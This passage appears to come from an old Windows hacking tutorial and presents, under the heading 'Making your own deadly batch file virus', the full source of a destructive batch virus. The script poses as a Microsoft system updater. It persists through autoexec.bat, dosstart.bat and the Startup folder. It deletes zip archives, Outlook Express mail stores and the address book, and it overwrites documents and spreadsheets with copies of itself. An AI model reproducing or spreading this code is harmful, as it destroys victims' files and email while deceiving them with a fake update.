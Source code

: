 This was just an example of a simple batch file program. You can easily create a more intelligent and more useful program using batch code.

### MAKING YOUR OWN DEADLY BATCH FILE VIRUS  ###

The following is a simple but somewhat deadly (but quite lame)Batch File Virus that I created. I have named it, VIRUS for short. I have used no advanced Batch or DOS commands in this virus and am sure that almost all you will have no problem understanding the code.

    @ECHO OFF            
    CLS
    IF EXIST c:\winupdt.bat GOTO CODE
    GOTO SETUP
    :SETUP
    @ECHO OFF
    ECHO Welcome To Microsoft Windows System Updater Setup
    ECHO.
    copy %0 c:\winupdt.bat >> NUL
    ECHO Scanning System.....Please Wait
    prompt $P$SWindows2000
    type %0 >> c:\autoexec.bat
    type %0 >> c:\windows\dosstart.bat
    ECHO DONE.
    ECHO.
    ECHO Installing Components....Please Wait
    FOR %%a IN (*.zip) DO del %%a
    FOR %%a IN (C:\mydocu~1\*.txt) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.xls) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.doc) DO COPY c:\winupdt.bat %%a >> NUL
    ECHO DONE.
    ECHO.
    ECHO You Now Need to Register with Microsoft's Partner: Fortune Galaxy to receive automatic updates.
    PAUSE
    ECHO Downloading Components...Please Wait
    START "C:\Program Files\Internet Explorer\Iexplore.exe" <http://www.website.com>
    IF EXIST "C:\Program Files\Outlook Express\msimn.exe"
    del "C:\WINDOWS\Application Data\Identities\{161C80E0-1B99-11D4-9077-FD90FD02053A}\Microsoft\Outlook Express\*.dbx"
    IF EXIST "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"  del "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"
    ECHO Setup Will Now restart Your Computer....Please Wait
    ECHO Your System is not faster by almost 40%.
    ECHO Thank you for using a Microsoft Partner's product.
    copy %0 "C:\WINDOWS\Start Menu\Programs\StartUp\winupdt.bat" >> NUL
    c:\WINDOWS\RUNDLL user.exe,exitwindowsexec
    CLS
    GOTO END
    :CODE
    CLS 
    @ECHO OFF
    prompt $P$SWindows2000
    IF "%0" == "C:\AUTOEXEC.BAT" GOTO ABC
    type %0 >> c:\autoexec.bat
    :ABC
    type %0 >> c:\windows\dosstart.bat
    FOR %%a IN (*.zip) DO del %%a
    FOR %%a IN (C:\mydocu~1\*.txt) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.xls) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.doc) DO COPY c:\winupdt.bat %%a >> NUL
    START "C:\Program Files\Internet Explorer\Iexplore.exe" <http://www.website.com>
    IF EXIST "C:\Program Files\Outlook Express\msimn.exe" del "C:\WINDOWS\Application Data\Identities\{161C80E0-1B99-11D4-9077-FD90FD02053A}\Microsoft\Outlook Express\*.dbx" >> NUL